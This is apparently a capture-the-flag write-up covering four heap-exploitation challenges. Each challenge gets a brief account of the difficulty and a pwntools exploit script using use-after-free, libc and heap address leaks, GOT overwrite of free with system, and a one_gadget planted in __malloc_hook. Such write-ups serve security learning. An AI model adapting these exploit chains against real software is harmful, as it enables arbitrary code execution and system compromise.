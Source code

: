DONTOVERFLOWME
===========================

General overview of problems faced
-------------------------------------
Buffer overflow + Use after me -> led me down a rabbit hole because I initially thought you had to double free.

Script/Command used
------------------
```python
def exploit():
    make_clone(0, b'')
    payload = b'A'*8 + p64(E.symbols['win'])
    name_clone(0, payload)
    P.sendline()
    give_hint(0)
    P.interactive()
```

EZPZ1
===========================

General overview of problems faced
-------------------------------------
None. Straightforward enough - you can still set question even if free so there is a use after free.

Script/Command used
------------------
```python

def exploit():
    create()
    delete(b'0')
    create()
    set(b'1', p64(E.symbols['win']))
    ask(b'0')
    P.interactive()

```

EZPZ2
===========================

General overview of problems faced
-------------------------------------
Can manipulate heap to leak a libc address and overwrite free function with system. Rather tricky to debug and prevent program from crashing but chaining call to a safe, benign function like putchar seemed to do the trick.

Script/Command used
------------------
```python

def exploit():
    libc = ELF("/lib/i386-linux-gnu/libc.so.6", checksec=False)
    got_printf = E.got['printf']
    libc_printf = libc.symbols['printf']
    libc.address = got_printf - libc_printf
    system = libc.symbols['system']

    create() # 0
    set(b'0', b'/bin/sh\0')
    create() # 1
    create() # 2
    create() # 3
    create() # 4
    delete(b'3')
    delete(b'4')
    set(b'3', p64(0x0) + b'A' * 32 + p64(0x31) + p64(E.got['atoi']))
    create() # 5
    leak = ask(b'5')
    log.info(f'ATOI @ {hex(leak)}')
    LIBC.address = leak - LIBC.symbols['atoi'] # set libc base
    delete(b'2')
    set(b'1', p64(0x0) + b'A' * 32 + p64(0x31) + p64(E.got['free'] - 8))
    create() # 6
    before_free = ask(b'6')
    log.info(f'before free @ {hex(before_free)}')
    set(b'6', p64(before_free) + p64(LIBC.symbols['system']) + p64(LIBC.symbols['putchar']))
    delete(b'0')
    P.interactive()

```

NOTEZPZ
===========================

General overview of problems faced
-------------------------------------
Literally everything - ensuring correct alignments was definitely something I had to play around a lot with this one.

Script/Command used
------------------
```python

def exploit():
    for _ in range(16 + 5):
        create()
    for i in range(5):
        delete(f'{16 + i}'.encode())
    delete(b'20')
    create() # 21
    heap_address = ask(b'21')
    log.info(f'Leaked Heap Address @ {hex(heap_address)}')
    set(b'2', b'A' * 40 + p64(0x421))
    delete(b'3')
    set(b'15', b'A' * 40 + p64(0x31) + p64(heap_address - 0x5d0))
    for _ in range(3):
        create()
    libc_leak = ask(b'24')
    log.info(f'Leaked LIBC Address @ {hex(libc_leak)}')
    LIBC.address = libc_leak - 0x1ecbe0
    one_gadget = LIBC.address + 0xe3b01
    delete(b'1')
    set(b'0', b'A' * 40 + p64(0x31) + p64(LIBC.symbols['__malloc_hook']))
    create() # 25
    set(b'25', p64(one_gadget))
    create()

    P.interactive()

```

